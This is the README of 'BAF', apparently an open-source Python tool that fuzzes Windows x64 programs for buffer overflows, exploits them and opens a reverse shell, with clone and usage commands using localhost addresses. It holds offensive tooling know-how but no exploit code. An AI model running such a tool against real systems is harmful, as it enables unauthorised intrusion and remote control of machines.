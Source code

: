 # BAF

Python Buffer Overflow scanner.

## Description

BAF is a tool used to scan Winx64 applications for Buffer Overflow Vulnerabilities. It's able to fuzz and exploit vulnerable applications and create a reverse shell.

## Getting Started

### Installation
```
git clone https://github.com/TralseDev/BAF.git
```

### Executing program

```
python3 main.py
```

### Examples:
```
python3 main.py --lhost 127.0.0.1 --lport 1337 --rhost 127.0.0.1 --rport 2337 --prefix="OVERFLOW_COMMAND" --timeout=5 --littleEndian
```

[![](./examples/example.mp4)]

## Help

```
python3 main.py -h
```

## Authors

Tralse

## Version History

* 1.0
    * Stable version
* 0.0
    * Beta phase

## License

This project is licensed under the GNU General Public License v3.0 (GNU GPLv3 License)

## TODOs
- offline scanner
- multi-threading
- save data to not restart all scans
- -o flag (for output > file -> logger/logging_file)
